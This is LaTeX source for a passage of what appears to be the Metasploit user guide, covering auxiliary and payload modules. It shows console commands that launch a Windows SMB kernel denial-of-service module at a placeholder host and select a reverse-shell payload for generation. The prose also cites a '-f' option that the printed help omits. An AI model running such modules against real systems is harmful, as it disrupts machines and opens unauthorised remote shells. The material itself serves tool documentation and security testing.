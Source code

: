 \documentclass{report}
\begin{document}
\par
Auxiliary modules are quite a bit similar to exploit modules.  Instead of
having targets, they have actions, which are specified through the
\texttt{ACTION} option.  To run an auxiliary module, you can either use the
\texttt{run} command, or you can use the \texttt{exploit} command -- they're
both the same thing.

\begin{verbatim}
msf > use dos/windows/smb/ms06_035_mailslot
msf auxiliary(ms06_035_mailslot) > set RHOST 1.2.3.4
RHOST => 1.2.3.4
msf auxiliary(ms06_035_mailslot) > run
[*] Mangling the kernel, two bytes at a time...
\end{verbatim} 

	\section{Payload Modules}

\par
Payload modules encapsulate the arbitrary code (shellcode) that is executed as
the result of an exploit succeeding.  Payloads typically build a communication
channel between Metasploit and the victim host.

		\subsection{Generating a Payload}

\par
The console interface supports generating different forms of a payload.  This
is a new feature in Metasploit 3.0.  To generate payloads, first select a
payload through the \texttt{use} command.

\begin{verbatim}
msf > use windows/shell_reverse_tcp
msf payload(shell_reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -e <opt>  The name of the encoder module to use.
    -h        Help banner.
    -o <opt>  A comma separated list of options in VAR=VAL format.
    -s <opt>  NOP sled length.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf payload(shell_reverse_tcp) >  
\end{verbatim}

\par
Using the options supported by the \texttt{generate} command, different
formats of a payload can be generated.  Some payloads will require options
which can be specified through the \texttt{-o} parameter.  Additionally, a
format to convey the generated payload can be specified through the
\texttt{-t} parameter. To save the resulting data to a local file, pass the
\texttt{-f} parameter followed by the output file name.
\end{document}
